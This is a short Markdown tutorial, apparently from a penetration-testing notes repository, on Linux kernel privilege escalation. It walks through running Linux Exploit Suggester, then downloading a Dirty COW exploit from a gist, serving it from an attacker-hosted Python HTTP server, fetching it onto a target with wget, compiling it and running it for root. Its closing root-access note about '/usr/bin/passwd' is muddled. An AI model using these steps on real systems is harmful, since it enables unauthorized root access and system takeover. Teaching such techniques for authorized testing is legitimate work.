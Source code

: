 ### **Introduction**

A kernel is essentially a “computer program” that facilitates interactions between hardware and software. This means that the kernel sits between applications (software) and the CPU / memory / devices / etc. (hardware). The job that the kernel has is to convert input/ouput (I/O) requests from software into instruction sets that interact between the software and hardware.

### **Steps to Identify and Exploit Kernel Vulnerabilities**

1.  Tools like Linux Exploit Suggester simplify finding potential exploits by scanning the system and suggesting possible exploits based on the kernel version and other details.  
    `git clone https://github.com/mzet-/linux-exploit-suggester.git`  
    
    ![](../../img/Linux-Environment/51.png)
    
2.  Host the Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../img/Linux-Environment/52.png)
    
3.  Transfer Script to target machine Using wget  
    `wget http://[IP-ADRESS]:8000/linux-exploit-suggester.sh`  
    
    ![](../../img/Linux-Environment/53.png)
    
4.  Make the script executable and run it on the target system:  
    `chmod a+x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh`  
    
    ![](../../img/Linux-Environment/54.png)

    The tool evaluates each exploit's potential effectiveness with different exposure levels:  
    1. **highly probable:** High likelihood of success without modifications.  
    2. **probable:** Likely to work with some adjustments.  
    3. **less probable:** Requires further manual analysis.  
    4. **unprobable:** Unlikely to be effective.  
    
    ![](../../img/Linux-Environment/55.png)
    
5.  Select a reliable version of the exploit. For example, you can use a well-reviewed variant of the Dirty COW exploit.   
    `wget https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw -O dirtycow.c`  
    
    ![](../../img/Linux-Environment/56.png)
    
6.  Host the Exploit Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../img/Linux-Environment/57.png)
    
7.  Use wget to download the exploit to the target machine:  
    `wget http://[IP-ADRESS]:8000/dirtycow.c`  
    
    ![](../../img/Linux-Environment/58.png)
    
8.  Compile the exploit code on the target system:  
    `gcc -pthread dirtycow.c -o dirtycow`
    
9.  Run the compiled exploit to perform the attack:  
    `./dirtycow`  
    
    ![](../../img/Linux-Environment/59.png)

    **NOTE:** After successful execution, elevate privileges to root using:  
    `/usr/bin/passwd`